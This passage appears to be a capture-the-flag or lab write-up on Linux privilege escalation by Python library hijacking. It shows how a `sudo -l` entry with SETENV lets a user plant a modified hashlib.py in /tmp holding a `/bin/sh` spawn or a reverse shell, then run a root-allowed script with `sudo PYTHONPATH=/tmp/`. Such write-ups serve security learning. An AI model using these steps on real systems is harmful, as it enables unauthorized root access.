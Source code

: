 - Untar to review:
````
./tar -xvf shadow.tar
````
## Python Library Hijacking 
![setenv](https://user-images.githubusercontent.com/75596877/170289480-53b814c0-636e-43bd-a0aa-156887408305.PNG)
- From `sudo -l` output we see `SETENV` (means we can set the env variables when it is run as root) in addition to the python script that can be run as root
![hashlib](https://user-images.githubusercontent.com/75596877/170289844-1d33fa11-e247-4004-8e04-e66668d03e80.PNG)
- We see the `import hashlib` statement at the top, can hijack the library 
- Python will look in the current directory or a specified path that we list due to the `SETENV` permission.
- The paths that come configured out of the box on Ubuntu 16.04, in order of priority, are:

- Directory of the script being executed
````
/usr/lib/python2.7
/usr/lib/python2.7/plat-x86_64-linux-gnu
/usr/lib/python2.7/lib-tk
/usr/lib/python2.7/lib-old
/usr/lib/python2.7/lib-dynload
/usr/local/lib/python2.7/dist-packages
/usr/lib/python2.7/dist-packages
````
- For other distributions, run the command below to get an ordered list of directories:
````
python -c 'import sys; print "\n".join(sys.path)'
````
- Can also use `locate hashlib.py` to figure out where the library is being executed from
- Once the libary is located 
- Copy the `hashlib.py` file to `/tmp or /dev/shm`
- Can either try adding a python reverse shell to the file or:
````
python -c 'import os; os.system("/bin/sh")'
python3 -c 'import os; os.system("/bin/sh")'
`````
- To conduct the priv esc now run:
````
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/hazel/hasher.py
````








